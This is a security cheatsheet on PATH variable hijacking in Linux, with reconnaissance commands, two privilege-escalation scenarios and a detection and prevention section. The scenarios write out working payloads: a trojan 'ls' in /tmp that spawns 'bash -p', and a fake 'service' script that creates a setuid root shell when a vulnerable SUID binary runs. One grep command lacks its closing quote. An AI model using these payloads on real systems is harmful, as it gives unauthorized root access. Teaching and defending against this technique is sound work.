 ## 🍕 Cheatsheet: PATH Variable Hijacking

The `$PATH` environment variable is a colon-separated list of directories that the shell searches for executables when a command is issued. PATH hijacking occurs when an attacker modifies the `$PATH` or places a malicious executable in a directory that is searched *before* the directory containing the legitimate program. This tricks a user or a privileged script into running the attacker's code.

### ## What to Look For (Reconnaissance)

An attacker's goal is to find a way to control the execution flow by exploiting how the system searches for binaries.

* **Inspect the Current PATH:**
    ```bash
    echo $PATH
    # Example Output: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/home/user/bin
    ```
    Pay close attention to the order of directories.

* **Find Writable Directories in the PATH:** Check if you can write to any of the listed directories. A world-writable directory is a major vulnerability.
    ```bash
    # Check each directory from the PATH output
    ls -ld /usr/local/sbin
    ls -ld /usr/local/bin
    # etc.
    ```

* **Look for `.` (Current Directory) in the PATH:** This is a classic misconfiguration. If `.` is in the path, especially at the start, it's highly exploitable.
    ```bash
    echo $PATH | grep -E '(^|:)\.(:|$)
    ```

* **Analyze Scripts:** Look for shell scripts (especially SUID binaries or cron jobs) that call other commands without using an absolute path.
    ```bash
    # Example of a vulnerable line in a script:
    # Instead of /bin/ps, the script just calls "ps"
    ps -ef | grep 'apache'
    ```

---

### ## Common Exploitable Scenarios & Payloads

The core idea is to create a malicious script, name it after a legitimate command, and place it where it will be found first.

#### **Scenario 1: `.` in PATH**
This is a trap for other users, especially `root`.

* **Discovery:** `echo $PATH` shows `.:/usr/local/bin:/usr/bin...`
* **Exploitation:**
    1.  Go to a directory you control, like `/tmp`.
    2.  Create a malicious script and name it after a common command, like `ls`.
        ```bash
        echo '#!/bin/bash' > /tmp/ls
        echo '/bin/bash -p' >> /tmp/ls  # Spawn a root shell
        chmod +x /tmp/ls
        ```
    3.  Wait for an administrator to `cd` into `/tmp` and run the `ls` command. Because `.` is first in their PATH, they will execute your malicious `/tmp/ls` instead of `/bin/ls`.

#### **Scenario 2: Exploiting an SUID Binary**
A privileged binary calls a system command without a full path.

* **Discovery:** You find an SUID binary (e.g., `/usr/local/bin/check-status`) that contains the line `service apache2 status`. The developer forgot to use `/usr/sbin/service`.

* **Exploitation:**
    1.  Create your malicious `service` script in a writable directory like `/tmp`.
        ```bash
        echo '#!/bin/bash' > /tmp/service
        echo 'cp /bin/bash /tmp/rootshell && chmod +s /tmp/rootshell' >> /tmp/service
        chmod +x /tmp/service
        ```
    2.  Prepend `/tmp` to your `$PATH` so the shell looks there first.
        ```bash
        export PATH=/tmp:$PATH
        ```
    3.  Run the vulnerable SUID binary.
        ```bash
        /usr/local/bin/check-status
        ```
    4.  The SUID program, running as root, will execute your `/tmp/service` script. This creates a SUID-root copy of bash in `/tmp`. You can then run `/tmp/rootshell -p` to become root.

---

### ## 🛡️ Detection & Remediation (For Defenders)

#### **How to Detect an Attempt**

* **Process Auditing:** Monitor process execution logs. A root-owned process like `check-status` spawning a shell or another process from `/tmp` is a major indicator of compromise.
* **File System Monitoring:** A user creating an executable file named `ls`, `ps`, or `service` in a non-standard directory like `/tmp` or `/dev/shm` is highly suspicious.

#### **How to Prevent PATH Hijacking**

* **Always Use Absolute Paths in Scripts:** This is the most effective defense. Never rely on the `$PATH`. Always specify the full path for every command in any script, especially those running with elevated privileges.
    ```bash
    # Bad:
    ps -ef | grep 'process'

    # Good:
    /bin/ps -ef | grep 'process'
    ```
* **Define a Safe PATH in Scripts:** At the start of your shell scripts, explicitly set a minimal, secure path. This overrides any potentially malicious `$PATH` inherited from the user's environment.
    ```bash
    #!/bin/bash
    export PATH=/usr/bin:/bin:/usr/sbin:/sbin
    # ... rest of script ...
    ```
* **Sanitize User PATH Variables:** Ensure that user and system-wide shell profiles (`/etc/profile`, `~/.bashrc`, etc.) do not contain dangerous, world-writable directories like `/tmp` or relative paths like `.`.
* **Principle of Least Privilege:** Users should not have write permissions to system-level directories like `/usr/local/bin` or `/sbin`.
